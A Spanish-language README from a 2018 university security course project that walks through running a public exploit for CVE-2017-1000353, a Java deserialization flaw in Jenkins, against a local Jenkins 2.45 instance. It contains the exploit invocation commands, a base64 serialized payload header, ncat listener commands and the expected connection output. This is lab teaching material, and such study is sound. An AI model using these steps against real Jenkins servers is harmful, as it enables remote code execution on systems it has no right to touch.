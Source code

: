# Seguridad informatica - UTN

## Trabajo práctico 2° Cuatrimestre 2018 - Grupo 2

## Integrantes

- Alejandro Gonzalez
- Facundo Lavagnino
- Tomás Altrui

# Exploit para CVE-2017-1000353 - Jenkins

## Herramientas necesarias

- Java JDK (Debe ser 8 o menos, https://www.oracle.com/technetwork/java/javase/downloads/jdk8-downloads-2133151.html)
- Ncat
- Python 3

## Preparación

 1. Clonar el repositorio (e ingresar en el):
 
    ```$ git clone https://github.com/AltTomas/siutn-tp-grupo-2-2018.git && cd siutn-tp-grupo-2-2018```

 2. Iniciar Jenkins:
    - Primero debemos asegurarnos que la versión de Java sea la correcta:
      ```
      $ java -version
        java version "1.8.0_144"
        Java(TM) SE Runtime Environment (build 1.8.0_144-b01)
        Java HotSpot(TM) 64-Bit Server VM (build 25.144-b01, mixed mode)
      ```
    - En caso que no, descargamos el JDK 8 del link provisto y ejecutamos:
    
      ```export JAVA_HOME=`/usr/libexec/java_home -v 1.8` ```
    
    - Luego de tener correctamente seteado el JDK de Java, ejecutamos:
    
      ```$ java -jar jenkins_2.45.war```

3. Ingresar a ```localhost:8080/cli o 127.0.0.1:8080/cli``` para asegurarse que inició correctamente (Solo ingresar la clave que pide al iniciar, no es necesario configurar plugins)

4. Iniciar una sesión de Ncat para escuchar en el puerto 4444:

    ``` Windows: ncat -v -l -p 4444```

    ``` OSX/Linux: netcat -v -l -p 4444```

## Ejecución del exploit y explicación

Para ejecutar el exploit basta con el siguiente comando:

   ```Windows: python exploit.py http://127.0.0.1:8080/cli java_serialization_data_win.bin```

   ```OSX/Linux: python exploit.py http://127.0.0.1:8080/cli java_serialization_data_mac_linux.bin```

Este script de Python inicia una sesión con el CLI de Jenkins realizando un POST al CLI en modo "download":
```
download - Starting new HTTP connection (1): 127.0.0.1:8080
download - http://127.0.0.1:8080 "POST /cli HTTP/1.1" 200 None
```

Luego realiza un "upload" con el payload que contiene como head el objeto serializado en base 64 que especifica la funcionalidad del cliente

```'<===[JENKINS REMOTING CAPACITY]===>rO0ABXNyABpodWRzb24ucmVtb3RpbmcuQ2FwYWJpbGl0eQAAAAAAAAABAgABSgAEbWFza3hwAAAAAAAAAH4='```

y el objeto de serialización de Java que contiene nuestro código a ejecutar, que en este caso es: ```ncat -v -l -p 4444```

En caso que nuestro exploit se haya ejecutado de manera satisfactoria, deberíamos ver en la consola que levantamos nuestra sesión de Ncat un mensaje de conexión:

```
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:57496.
```

### Fuente

https://github.com/nixawk/labs/tree/master/CVE-2017-1000353
